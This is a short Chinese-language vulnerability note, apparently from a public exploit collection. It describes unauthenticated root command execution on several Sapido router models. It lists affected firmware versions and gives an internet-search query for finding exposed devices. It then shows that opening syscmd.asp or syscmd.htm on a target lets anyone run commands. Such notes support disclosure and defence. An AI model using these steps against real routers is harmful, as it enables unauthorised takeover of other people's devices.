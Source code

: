 # Sapido 多款路由器 远程命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

```
BR270n-v2.1.03
BRC76n-v2.1.03
GR297-v2.1.3
RB1732-v2.0.43
```

## 网络测绘

```
app="Sapido-路由器"
```

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](images/202202162237726.png)

访问目标：

```plain
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](images/202202162237444.png)

直接输入就可以命令执行了

